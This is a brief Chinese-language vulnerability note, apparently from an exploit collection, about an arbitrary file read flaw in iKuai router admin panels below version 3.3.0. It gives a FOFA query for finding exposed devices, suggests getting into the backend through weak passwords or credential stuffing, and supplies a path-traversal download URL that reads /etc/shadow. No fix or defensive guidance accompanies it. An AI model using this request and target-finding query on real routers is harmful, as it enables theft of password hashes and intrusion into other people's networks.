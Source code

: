 ## 爱快路由器后台任意文件读取

## 漏洞描述

爱块路由器后台存在任意文件读取漏洞，攻击者可通过漏洞读取敏感信息

## 漏洞影响

> 3.3.0 x64 Build201912171705 以下版本

## FOFA

> app="iKuai-产品"

## 漏洞复现

该漏洞需要先通过某种手段进入到后台，如弱口令、撞库等。

进入到后台之后可通过以下url进行任意文件读取

```
http://x.x.x.x/Action/download?filename=../../../../../../etc/shadow HTTP/1.1
```

